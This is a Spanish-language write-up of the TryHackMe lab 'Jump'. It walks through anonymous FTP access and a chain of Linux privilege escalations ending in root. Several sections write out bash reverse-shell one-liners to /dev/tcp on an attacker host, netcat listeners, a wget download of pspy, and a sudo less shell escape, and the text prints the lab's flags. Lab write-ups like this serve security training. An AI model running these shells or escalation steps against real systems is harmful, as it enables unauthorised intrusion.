# Jump — mi write-up

Room de **TryHackMe** (easy). Linux: FTP anónimo → pipeline de recon → cadena de privesc entre usuarios (`recon_user` → `dev_user` → `monitor_user` → `ops_user` → root).

Room: https://tryhackme.com/room/jump

---

## Cómo empecé

Hacemos reconocimiento con nmap, encontramos los puertos 21 y 22.

```bash
sudo nmap -sS -Pn -p- --min-rate 1000 <IP>
```



Hacemos otro reconocimiento para sacar más información de los 2 puertos encontrados, vemos que FTP acepta login anónimo.

```bash
sudo nmap -sC -sV -p21,22 <IP>
```



---

## FTP anónimo

Nos logueamos como anónimo.

```bash
ftp <IP>
# Name: anonymous
# Password: (vacío / Enter)
```



Encontramos un `README.txt` en un directorio.



Lo descargamos.

```
ftp> get README.txt
```



Leemos el txt. Entiendo que todo el trabajo de reconocimiento tiene que estar situado en `incoming/`, y que son procesados, lo cual me hace deducir que todo lo que llega ahí se ejecuta.



---

## Reverse shell como recon_user

Creamos un archivo con una reverse shell para poder subirlo al directorio.

```bash
bash -i >& /dev/tcp/<TU-IP>/1337 0>&1
```



Lo subimos.

```
ftp> cd incoming
ftp> put script.sh
```



Y nos llega la conexión como el usuario `recon_user`.

```bash
nc -lvnp 1337
```



Encontramos la primera flag.



```
THM{5a3f1c92-7b4e-4d91-8c2a-1f6e9b2a4c11}
```

Encontramos la segunda flag en el directorio de `dev_user`.



```
THM{8d2b7a41-3f9c-4e55-b1a2-6c7d9e8f0123}
```

---

## pspy y cron → dev_user

Usamos una herramienta que se llama **pspy64**. Levantamos un servidor donde tenemos el programa guardado y desde la máquina víctima lo descargamos.

```bash
# en Kali
python3 -m http.server 80

# en la víctima
wget http://<TU-IP>/pspy64
```



Vemos las tareas cron que se ejecutan.



Luego de hacer reconocimiento, veo que puedo escribir en el archivo `backup.sh`, y le pongo una reverse shell.

```bash
cat > /opt/dev/backup.sh <<'EOF'
#!/bin/bash
bash -i >& /dev/tcp/<TU-IP>/1400 0>&1
EOF
```



Ponemos en escucha con netcat y se conecta la reverse shell como `dev_user`.

---

## PATH de healthcheck → monitor_user

Una vez dentro hacemos reconocimiento, y luego consulto las variables de entorno con las que systemd ejecuta `healthcheck.service`. Vemos que lo ejecuta con este path `/opt/dev/bin/ps`.

```bash
systemctl show healthcheck.service -p Environment
# Environment=PATH=/opt/dev/bin:/usr/local/bin:/usr/bin
```



Entonces modificamos `ps` y ponemos una reverse shell, y damos permiso de ejecución con `chmod +x`.

```bash
cat > /opt/dev/bin/ps <<'EOF'
#!/bin/bash
bash -i >& /dev/tcp/<TU-IP>/1500 0>&1
EOF
chmod +x /opt/dev/bin/ps
```



Nos llega la conexión con el usuario `monitor_user`. La flag la encontramos en el directorio del usuario.

```bash
nc -lvnp 1500
```



---

## deploy.sh → ops_user

El usuario `ops_user` puede ejecutar `deploy.sh`. Leemos dentro de `deploy.sh` y vemos que utiliza otro script llamado `deploy_helper.sh`.



Vemos quién puede ejecutar ese archivo y vemos que tenemos total permiso sobre él, entonces ponemos la reverse shell dentro.

```bash
ls -l /opt/app/deploy_helper.sh
cat > /opt/app/deploy_helper.sh <<'EOF'
#!/bin/bash
bash -i >& /dev/tcp/<TU-IP>/1600 0>&1
EOF
```



Ejecutamos el `deploy.sh`.

```bash
sudo -u ops_user /usr/local/bin/deploy.sh
```



Y ganamos la rev shell como el usuario `ops_user`. La flag la encontramos en el directorio del usuario.

```bash
nc -lvnp 1600
```



---

## less → root

Luego ejecutando `sudo -l` vemos que tenemos permitido ejecutar `less` como root sin contraseña. Podemos explotarlo siguiendo los pasos de GTFOBins y obtener la shell como root.

```bash
sudo less /etc/hosts
!/bin/sh
```



---

## Mi cadena (resumen)

```
nmap (21, 22) → FTP anonymous
  → README.txt: incoming/ se procesa / se ejecuta
  → put script.sh → nc → recon_user + flag
  → flag en /home/dev_user
  → pspy64 → cron /opt/dev/backup.sh (escribible)
  → backup.sh + nc → dev_user
  → healthcheck.service PATH=/opt/dev/bin → overwrite ps
  → nc → monitor_user + flag
  → deploy.sh llama a deploy_helper.sh (escribible)
  → sudo -u ops_user deploy.sh → ops_user + flag
  → sudo less (NOPASSWD) → GTFOBins → root
```

---

*Room educativo de TryHackMe*
